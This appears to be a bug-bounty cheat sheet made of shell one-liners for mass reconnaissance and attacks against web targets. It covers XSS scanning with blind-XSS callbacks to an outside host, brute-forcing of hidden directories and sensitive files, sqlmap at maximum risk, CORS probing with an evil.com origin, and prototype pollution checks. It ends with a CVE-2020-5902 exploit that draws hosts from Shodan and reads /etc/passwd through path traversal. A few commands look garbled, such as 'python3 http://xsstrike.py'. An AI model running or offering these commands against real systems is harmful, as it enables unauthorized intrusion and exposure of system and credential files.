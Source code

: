 ```
waybackurls target.com | sed 's/=.*/=/' | sort -u | tee Possible_xss.txt && cat Possible_xss.txt | dalfox -b hacker.xss.ht pipe > output.txt
```
```
cat subs.txt | awk '{print $3}'| httpx -silent | xargs -I@ sh -c 'python3 http://xsstrike.py -u @ --crawl'
```
---------------------
## Hidden Dirs:
```
dirsearch -l urls.txt -e conf,config,bak,backup,swp,old,db,sql,asp,aspx,aspx~,asp~,py,py~,rb,rb~,php,php~,bak,bkp,cache,cgi,conf,csv,html,inc,jar,js,json,jsp,jsp~,lock,log,rar,old,sql,sql.gz,sql.zip,sql.tar.gz,sql~,swp,swp~,tar,tar.bz2,tar.gz,txt,wadl,zip,log,xml,js,json --deep-recursive --force-recursive --exclude-sizes=0B --random-agent --full-url -o output.txt
```
```
for URL in $(<targets.txt); do ( ffuf -u "${URL}/FUZZ" -w wordlists.txt -ac ); done
```
```
ffuf -c -u target.com -H "Host: FUZZ" -w wordlist.txt 
```
**Search for Sensitive files from Wayback**
```
waybackurls domain.com| grep - -color -E "1.xls | \\. xml | \\.xlsx | \\.json | \\. pdf | \\.sql | \\. doc| \\.docx | \\. pptx| \\.txt"
```
```
cat hosts.txt | httpx -nc -t 300 -p 80,443,8080,8443 -silent -path "/s/123cfx/_/;/WEB-INF/classes/seraph-config.xml" -mc 200
```
-------------------
## SQLi:
```
cat subs.txt | httpx -silent | anew | waybackurls | gf sqli >> sqli ; sqlmap -m sqli -batch --random-agent --level 5 --risk 3
```
----------------
## CORS:
```
gau "http://target.com" | while read url;do target=$(curl -s -I -H "Origin: https://evil.com" -X GET $url) | if grep 'https://evil.com'; then [Potentional CORS Found]echo $url;else echo Nothing on "$url";fi;done
```
---------------
## Prototype Pollution:
```
subfinder -d target.com -all -silent | httpx -silent -threads 300 | anew -q alive.txt && sed 's/$/\/?__proto__[testparam]=exploit\//' alive.txt | page-fetch -j 'window.testparam == "exploit"? "[VULNERABLE]" : "[NOT VULNERABLE]"' | sed "s/(//g" | sed "s/)//g" | sed "s/JS //g" | grep "VULNERABLE"
```
-------------
## CVEs:
### CVE-2020-5902:
```
shodan search http.favicon.hash:-335242539 "3992" --fields ip_str,port --separator " " | awk '{print $1":"$2}' | while read host do ;do curl --silent --path-as-is --insecure "https://$host/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd" | grep -q root && \printf "$host \033[0;31mVulnerable\n" || printf "$host \033[0;32mNot Vulnerable\n";done
```